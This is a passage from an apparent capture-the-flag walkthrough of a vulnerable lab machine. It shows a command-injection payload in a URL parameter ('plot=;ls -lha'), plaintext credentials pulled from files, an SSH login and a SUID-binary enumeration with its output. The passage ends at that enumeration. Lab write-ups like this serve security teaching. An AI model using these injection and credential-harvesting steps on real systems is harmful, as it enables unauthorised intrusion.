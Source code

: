 B. Now tried to exploit with following request in browser:-

http://TARGET_IP/joomla/_test/index.php?plot=;ls -lha

got list of files in current directory:-

log.txt

C. now trying to list contents of it using same technique:

got credentials of one user:
```

basterd:superduperp@$$


````

D. now ssh as basterd with newly found credentials:

E. in the home directory following files are there.

```
drwxr-x--- 3 basterd basterd 4.0K Aug 22  2019 .
drwxr-xr-x 4 root    root    4.0K Aug 22  2019 ..
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
-rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
drwx------ 2 basterd basterd 4.0K Aug 22  2019 .cache

```

F. Now list contents of backup.sh
got password of another user: stoner

```
USER=stoner
#superduperp@$$no1knows

```

G. 
find / -perm -u=s -type f 2>/dev/null
````

/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping6
/bin/ping
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/apache2/suexec-custom
/usr/lib/apache2/suexec-pristine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgidmap
/usr/bin/find
/usr/bin/at
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newuidmap

````
